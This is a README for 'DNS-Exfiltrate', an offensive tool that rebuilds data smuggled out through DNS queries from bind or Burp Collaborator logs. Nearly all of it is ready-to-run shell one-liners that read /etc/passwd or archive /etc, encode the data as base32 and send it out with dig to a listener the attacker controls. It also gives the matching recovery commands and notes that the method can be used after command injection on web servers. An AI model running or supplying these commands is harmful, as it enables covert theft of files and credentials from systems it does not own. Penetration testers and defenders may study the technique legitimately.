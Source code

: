 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to exfiltrate data. Note that you will get more reliable results by specifying the name server via `dig @`...

It parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee`:

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes logs are encoded in `base32` (`A-Z`, `2-7`), which most efficent native (on most Linux/Unix systems) utility that is safe for DNS queries. The `=` character is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` adds any missing `=` characters back.

Hex encoding is also safe for DNS queries (but is less efficient). I may add hex support in the future. `base64` does not work due to `/` and `+`.

Thanks to Xavier Mertens for this escellent Internet Storm Center post: https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326

Use cases (bash):

## Exfiltrate a file:

```
cat /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d
```

To recover the file (on a private Burp Collaborator server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d
```

## Exfiltrate a compressed file:

```
cat /etc/passwd | gzip - | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover/unzip the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d | zcat
```

To recover/unzip the file (on a private Burp Collaborator server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d | zcat 
```

## Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked perfecttly (but took a while). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

```
tar czf - /etc | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the tar file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d > exfiltrated.tgz
```

To recover the tar file (on a bind DNS server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d > exfiltrated.tgz
```
